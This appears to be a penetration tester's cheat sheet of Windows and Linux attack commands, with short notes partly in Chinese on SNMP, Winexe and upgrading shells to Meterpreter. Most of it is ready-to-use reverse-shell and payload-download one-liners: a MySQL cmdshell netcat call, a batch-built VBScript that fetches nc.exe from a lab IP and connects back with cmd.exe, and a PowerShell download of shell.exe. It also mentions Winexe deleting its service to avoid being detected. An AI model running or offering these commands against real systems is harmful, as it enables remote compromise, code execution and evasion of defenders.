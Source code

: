 ## .cgi file reverse shell
```
#!/usr/bin/perl
require '/tmp/t.pl';
```
## MySQL reverse shell
```
select cmdshell("C:\\nc.exe 10.11.0.186 4444 -e cmd.exe")
```
## find share folder
When we found a shared folder, we can upload file to there.
```
$ showmount -e ip
```
## vbs reverse shell
use it to download nc.exe and reverse shell with cscript.
```
$ cmd.exe /c "@echo Set objXMLHTTP=CreateObject("MSXML2.XMLHTTP")>poc.vbs
&@echo objXMLHTTP.open "GET","http://10.11.0.186/nc.exe",false>>poc.vbs&@echo objXMLHTTP.send()>>poc.vbs&@echo If objXMLH
TTP.Status=200 Then>>poc.vbs&@echo Set objADOStream=CreateObject("ADODB
.Stream")>>poc.vbs&@echo objADOStream.Open>>poc.vbs&@echo objADOStream.
Type=1 >>poc.vbs&@echo objADOStream.Write objXMLHTTP.ResponseBody>>poc.
vbs&@echo objADOStream.Position=0 >>poc.vbs&@echo objADOStream.SaveToFi
le "nc.exe">>poc.vbs&@echo objADOStream.Close>>poc.vbs&@echo Set objA
DOStream=Nothing>>poc.vbs&@echo End if>>poc.vbs&@echo Set objXMLHTTP=No
thing>>poc.vbs&@echo Set objShell=CreateObject("WScript.Shell")>>poc.vb
s&@echo objShell.Exec("nc.exe -e cmd.exe 10.11.0.186 4444")>>poc.vbs&cscript.exe poc.vbs"
```
## powershell download file
```
$ powershell -c (new-object System.Net.WebClient).DownloadFile('http://IP/shell.exe','C:\Users\username\shell.exe')
```
### Notes
## strck in get user
- enumerate more
    - UDP
## SNMP
- 簡單網路管理協議
- 監測連接到網絡上的設備是否有任何引起管理上關注的情況
- 每一個被管理的系統上有運行一個叫做代理者（agent）的軟體元件，且透過SNMP對管理系統報告資訊
- 代理者是一種存在於被管理的設備中的網路管理軟體模組。代理者控制本地機器的管理資訊，以和SNMP相容的格式傳送這項資訊
## upgrading to meterpreter
- https://www.hackingtutorials.org/networking/upgrading-netcat-shells-to-meterpreter/
## winexe
- 對方主機開啟文件共享服務時
- 藉助Winexe工具遠程執行Windows命令
- 該工具首先會在目標主機安裝對應的Winexe服務，然後執行指定的命令。執行完成後，該工具會自動刪除對應的服務，以避免被發現
